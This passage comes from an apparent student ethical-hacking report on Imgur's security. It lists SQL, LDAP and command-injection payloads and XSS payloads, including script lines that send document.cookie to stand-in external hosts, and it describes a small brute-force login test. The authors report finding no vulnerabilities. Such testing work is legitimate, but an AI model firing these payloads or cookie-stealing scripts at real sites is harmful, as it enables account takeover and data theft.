PROCEDURE
LIMIT
ORDER BY
ASC
DESC
DELETE
UPDATE
DISTINCT
HAVING
TRUNCATE
REPLACE
LIKE
handler
bfilename
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%
EXEC xp
EXEC sp
'; exec master..xp_cmdshell
'; EXEC xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
--sp_password
\x27UNION SELECT
' UNION SELECT
' UNION ALL SELECT
' OR (EXISTS)
' (select top 1
'||UTL_HTTP.REQUEST
1;SELECT%20*
to_timestamp_tz
tz_offset
&lt;&gt;&quot;'%;)(&amp;+
'%20or%201=1
%27%20or%201=1
%20$(sleep%2050)
%20'sleep%2050'
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
|
%7C
*|
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29
(
%28
)
%29
&
%26
!
%21
' OR 1=1 OR ''='
' OR ''='
x' OR 1=1 OR 'x'='y
/
//
//*
*/*
```
- The automated payload proccess seems not vulnerable, because of the reCAPTCHA mechanism, which is a lot harder to break.
- Here is the example of payload render output.

- When the automated proccess is not possible, lets try to test some SQLi querries manually.
- There is no sign of SQLi injectability after testing each and every querry from above manully.
- We analyzed each and every response from above and have not found anything suspicious.

- **All fields (username, password, email, etc...) were tested in this part.**
- **Imgur is durable to SQLi via search function and login/register forms.**
- **Imgur profile settings fields were also tested for SQLi with above test with no vulnerable outcomes. - imgur.com/account/settings**


#### Exploitation
- Let's focus at the vulnerability which we found using nexpose scan earlier. 
- [Nexpose XSS vulnerability](imgur_nexpose_report/Document.md#321-cross-site-scripting-vulnerability-http-cgi-0010)
- The scan founded out that the 'q_type' parameter which occures at several urls might be xss vulnerable.
- We won't try another paramethers at other imgur urls because nexpose which is quite a sofisticated scan did not noticed anything suspicious about them.
- XSS payload list
```javascript
"><script>"
<script>alert("WXSS")</script>
<<script>alert("WXSS");//<</script>
<script>alert(document.cookie)</script>
'><script>alert(document.cookie)</script>
'><script>alert(document.cookie);</script>
\";alert('XSS');//
%3cscript%3ealert("WXSS");%3c/script%3e
%3cscript%3ealert(document.cookie);%3c%2fscript%3e
%3Cscript%3Ealert(%22X%20SS%22);%3C/script%3E
&ltscript&gtalert(document.cookie);</script>
&ltscript&gtalert(document.cookie);&ltscript&gtalert
<xss><script>alert('WXSS')</script></vulnerable>


<SCRIPT>alert("WXSS")</SCRIPT>">


'%3CIFRAME%20SRC=javascript:alert(%2527XSS%2527)%3E%3C/IFRAME%3E
"><script>document.location='http://cookieStealer/cgi-bin/cookie.cgi?'+document.cookie</script>
%22%3E%3Cscript%3Edocument%2Elocation%3D%27http%3A%2F%2Fyour%2Esite%2Ecom%2Fcgi%2Dbin%2Fcookie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}
'';!--"<XSS>=&{()}
```
- burpsuite sniper attack was established to test the 'q_type' parametr

- one more payload list also used from [GitHub - ismailtasdelen](https://github.com/ismailtasdelen/xss-payload-list)
- After analyzing responses we have not discovered any proof of true xss vulnerablity while searching for all of tree xss types from above.
- **Imgurs advanced search functions seems durable to the XSS.**
- **Imgur profile settings fields were also tested for XSS with above test with no vulnerable outcomes. - imgur.com/account/settings**
- **Video to gif function was also tested for XSS with above test with no vulnerable outcomes. - imgur.com/vidgif**
- **Imgur login/register forms were also tested for XSS with above test with no vulnerable outcomes.**


## 6. User security / Authentication bypass
- In this section, we'll slightly focus on individual user security. 
- We've tried some lighter bruteforcing attack at the login page using once again burpsuite payloads.
- There could be many possible combinations of most used passwords and common usernames.
- Let's just test the login process security using only a few credentials. 
- The first two usernames are invalid, the third one is valid.
- Same with the passwords.
```html
Usernames:

DuffelKerfuffle
HenryOfSkalitz
ehatest

Passwords:
imhungry54
strongpassword123
password1
```
- The only valid combination of username and password for login is 'ehatest' and 'password1'.
- Let's see if we log in when using the automated tool even if we get the right combination of username and password.
- That's how the sign in form looks like. 
```html
 <form id="signin-form" method="post" action="">
        <div class="signin-imgur core-dark core-shadow br5">
            

            <input
                title=""
                type="text"
                tabindex="5"
                name="username"
                maxlength="255"
                id="username"
                class="br5 lvl1-dark"
                placeholder="Username or Email"
                
            />

            <p class="password">
                <input
                    title=""
                    type="password"
                    tabindex="6"
                    name="password"
                    maxlength="255"
                    id="password"
                    class="br5 last lvl1-dark"
                    placeholder="Password"
                />

                <a class="forgot-password text-center" title="forgot password" href="//imgur.com/signin/forgotpassword">forgot?</a>
            </p>

            <input type="hidden" name="remember" value="remember">
```
- when using some suspicous automated proccess for signing in, attackers intensios get disturbed by the reCAPTCHA mechanism
- we can see the change at codes from above and below
```html
<form id="signin-form" method="post" action="">
          <div class="signin-imgur core-dark core-shadow br5 captcha">
            <p class="error">Please fill out a captcha.</p>
            <input
            title=""
            type="text"
            tabindex="5"
            name="username"
            maxlength="255"
            id="username"
            class="br5 lvl1-dark"
            placeholder="Username or Email"
            value="user"
            />
            <p class="password">
              <input
              title=""
              type="password"
              tabindex="6"
              name="password"
              maxlength="255"
              id="password"
              class="br5 last lvl1-dark"
              placeholder="Password"
              />
              <a class="forgot-password text-center" title="forgot password" href="//imgur.com/signin/forgotpassword">forgot?</a>
            </p>
            <input type="hidden" name="remember" value="remember">
            <div class="captcha">
              <script src="https://www.google.com/recaptcha/api.js" async defer></script>
              <div class="g-recaptcha" data-sitekey="6LdZsh4TAAAAAGnDJx9KXxURWygq8exADiSHLP-M" data-theme="dark"></div>
            </div>
```
- These CAPTCHA mechanisms are very hard to break.
- Hacker than can not recognise any valid combination, because even with the correct credentials we need to confirm the CAPTCHA to login.
- This is a big adventage, not every web application has this security mechanism.
- **The sign in form is durable to automated bruteforce tools techniques.**


*We've learned a lot about ethical hackings and bug bounty programs during this work. It was an enjoyable time.*
*- Jiří Pašek, ~~Patrik Martinec~~*

### References
- [1] Command Injection - OWASP. Command Injection - OWASP [online]. Texas, USA: OWASP Foundation, 2018 [quoted. 2019-04-13]. Available from: https://www.owasp.org/index.php/Command_Injection
- [2] DVWA - Damn Vulnerable Web Application [online]. UK: DVWA, 2019 [quoted. 2019-04-13]. Available from: http://www.dvwa.co.uk/
- [3] Acunetix. Acunetix [online]. Acunetix: Acunetix, 2018 [quoted. 2019-05-12]. Available from: https://www.acunetix.com/websitesecurity/sql-injection/
- [4] Null-byte.wonderhowto.com. Null-byte.wonderhowto.com [online]. null-byte.wonderhowto.com: null-byte.wonderhowto.com, 2018 [quoted. 2019-05-12]. Available from: https://null-byte.wonderhowto.com/how-to/attack-web-applications-with-burp-suite-sql-injection-0184090/
- [5] Portswigger. Portswigger - Cross site scripting [online]. Portswigger: Portswigger, 2018 [quoted. 2019-05-13]. Available from: https://portswigger.net/web-security/cross-site-scripting
- [6] İsmail Taşdelen, Cross Site Scripting ( XSS ) Vulnerability Payload List, (2019), GitHub repository,https://github.com/ismailtasdelen/xss-payload-list
- [7] Imgur.com History. Imgur [online]. San Francisco, CA, USA: imgur, 2016 [quoted. 2019-05-28]. Available from: https://help.imgur.com/hc/en-us/articles/201424856-History